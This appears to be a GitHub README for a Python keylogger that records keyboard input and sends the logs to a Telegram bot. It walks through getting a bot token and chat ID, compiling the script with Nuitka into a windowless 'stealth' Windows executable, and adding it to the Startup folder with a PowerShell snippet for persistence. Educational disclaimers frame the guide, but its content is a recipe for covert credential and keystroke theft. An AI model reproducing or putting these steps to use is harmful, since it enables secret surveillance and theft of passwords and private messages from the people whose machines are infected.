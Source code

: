 
---

# Keylogger with Telegram Bot Integration

> ⚠️ **Disclaimer**: This project is for **educational and testing purposes only**. Unauthorized use of keyloggers is illegal and unethical. Do **not** use or distribute this software without **explicit permission** from all affected parties.

---

## 📌 Features

- 🔐 Captures keyboard input on your machine.
- 📤 Sends captured logs to your Telegram bot.
- 🧙 Runs silently in the background without showing a terminal window (when compiled).
- Built using **Python** and compiled to **Windows `.exe`** using **Nuitka**.

---

## ⚙️ Requirements

- Python 3.8 – 3.12  
- **Telegram Bot Token** (created via [BotFather](https://core.telegram.org/bots#botfather))  
- **Telegram Chat ID**  

### Python Libraries:

Install the required Python packages:

```bash
pip install pynput requests
```

### Compiler:

Install **Nuitka** to compile the script into a Windows executable:

```bash
pip install nuitka
```

---

## 🤖 Method 1: How to Create a Telegram Bot 

Follow these steps to create a Telegram bot and get your credentials.

### 1️⃣ Create a Telegram Bot via [BotFather](https://t.me/BotFather)

1. Open **Telegram** and search for [**@BotFather**](https://t.me/BotFather).
2. Start a chat with BotFather by typing `/start`.
3. Create a new bot by typing:
   ```
   /newbot
   ```
4. Follow the prompts:
   - Give your bot a name (e.g., `TestKeyloggerBot`).
   - Choose a username that ends with `bot` (e.g., `test_logger_bot`).

5. Once done, BotFather will provide you with a **bot token**:
   ```
   123456789:ABCdefGHIjklMNOpqrSTUvwxYZ
   ```

✅ **Copy this token** — it's your `TELEGRAM_BOT_TOKEN`.

---

### 2️⃣ Get Your Telegram Chat ID

1. Start a conversation with your bot by searching for its username and clicking **Start**.
2. Go to the following URL in your browser:
   ```
   https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates
   ```
   Replace `<YOUR_BOT_TOKEN>` with the token you received.

3. You’ll receive a response with the chat ID:
   ```json
   {
     "result": [
       {
         "message": {
           "chat": {
             "id": 123456789,
             "type": "private",
             ...
           }
         }
       }
     ]
   }
   ```

✅ **Copy this `id`** — it’s your `TELEGRAM_CHAT_ID`.

---

## 📁 Setup

1. Clone or download the repository.
2. Open `keylogger.py` and configure:

```python
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = "your_chat_id"
LOG_INTERVAL = 1800  # Default is 30 minutes (1800 seconds)
```

3. Save the file.

---

## 🚀 Running the Script (For Testing)

To run the keylogger for testing purposes, execute the following command:

```bash
python keylogger.py
```

The script will begin logging and send updates to your Telegram bot at the configured interval.

---

## 🧙‍♂️ Compile to a Stealth `.exe` (For Testing)

You can compile the script into a Windows `.exe` file using **Nuitka**.

Use this command to compile:

```powershell
& "$env:USERPROFILE\AppData\Roaming\Python\Python312\Scripts\nuitka.cmd" --standalone --onefile --windows-disable-console keylogger.py
```

The executable will be generated in the `keylogger.dist` folder.

---

## 📦 Optional: Add to Startup (Windows)

To make the `.exe` run at Windows startup:

```powershell
$shortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.lnk"
$target = "C:\Path\To\Your\keylogger.exe"
$ws = New-Object -ComObject WScript.Shell
$sc = $ws.CreateShortcut($shortcut)
$sc.TargetPath = $target
$sc.Save()
```

This will create a shortcut in the Startup folder that will launch the executable automatically when the system starts.

---

## ❗ Disclaimer

This software is for **ethical testing and educational purposes only**. Ensure you have **explicit consent** before running this tool on any device or system. Unauthorized use is illegal and may lead to criminal charges. 

The creator assumes **no liability** for misuse of this tool.

---

Let me know if you need further updates!
